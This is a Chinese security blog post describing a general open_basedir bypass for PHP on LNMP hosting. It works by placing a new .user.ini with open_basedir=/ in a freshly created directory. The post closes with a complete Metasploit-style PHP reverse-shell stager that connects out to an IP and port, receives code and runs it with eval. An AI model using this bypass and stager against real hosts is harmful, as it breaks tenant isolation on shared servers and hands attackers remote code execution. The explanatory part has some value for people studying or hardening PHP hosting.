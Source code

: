 ```yaml
---
layout: post
title: LNMP虚拟主机PHP沙盒逃逸
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;并不只是针对Lnmp的沙盒逃逸，而是.user.ini的设计缺陷达到绕过open_basedir限制，所以是通用的方法。首先来看看最新版LNMP是怎么配置open_basedir的：

    open_basedir=/home/wwwroot/default:/tmp/:/proc/

    lsattr .user.ini
    ----i----------- .user.ini

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;LNMP的open_basedir是通过.user.ini来配置的。再来看disable_functions都禁用了哪些函数：

    lnmp1.3/include/php.sh

<img src="http://7xiw31.com1.z0.glb.clouddn.com/5ethrdfb.png">

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;注意到了stream_socket_server被禁用了。这个是用来建立Socket服务端的，完全可以使用其他可创建socket服务端的函数进行反弹个socket会话，比如socket_create、 fsockopen。不过虽是可以建立socket会话，但group为www，所以这个留在后面结合使用。

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;.user.ini是不允许增删改的，那怎样能突破限制？.user.ini只在当前目录生效了。那么我们可不可以写入新的.user.ini并且不与原.user.ini冲突，将其open_basedir指向根目录？可以的。


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;首先创建一个目录并写入新的.user.ini。新的.user.ini需要1-3min来生效。

    open_basedir=/

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;最后结合socket，使用msf在新目录生成个反向代理payload并稍加更改就可以了。

    <?php
    error_reporting(0);
    
    $ip = '192.168.137.67';
    $port = 4444;
    $ipf = AF_INET;
    if (FALSE !== strpos($ip, ":")) {
    	$ip = "[". $ip ."]";
    	$ipf = AF_INET6;
    }
    if (($f = 'fsockopen') && is_callable($f)) {
    	$s = $f($ip, $port);
    	$s_type = 'stream';
    } elseif (($f = 'socket_create') && is_callable($f)) {
    	$s = $f($ipf, SOCK_STREAM, SOL_TCP);
    	$res = @socket_connect($s, $ip, $port);
    	if (!$res) {
    		die(); 
    	}
    	$s_type = 'socket';
    } else {
    	die('no socket funcs');
    }
    if (!$s) {
    	die('no socket');
    }
    
    switch ($s_type) {
    	case 'stream': $len = fread($s, 4); break;
    	case 'socket': $len = socket_read($s, 4); break;
    }
    
    if (!$len) {
    	die();
    }
    
    $a = unpack("Nlen", $len); $len = $a['len'];
    $b = '';
    while (strlen($b) < $len) {
    	switch ($s_type) {
    		case 'stream': $b .= fread($s, $len-strlen($b)); break;
    		case 'socket': $b .= socket_read($s, $len-strlen($b)); break;
    	}
    }
    $GLOBALS['msgsock'] = $s;
    $GLOBALS['msgsock_type'] = $s_type;
    eval($b);
    die();
    ?>

<img src="http://7xiw31.com1.z0.glb.clouddn.com/rsd.png">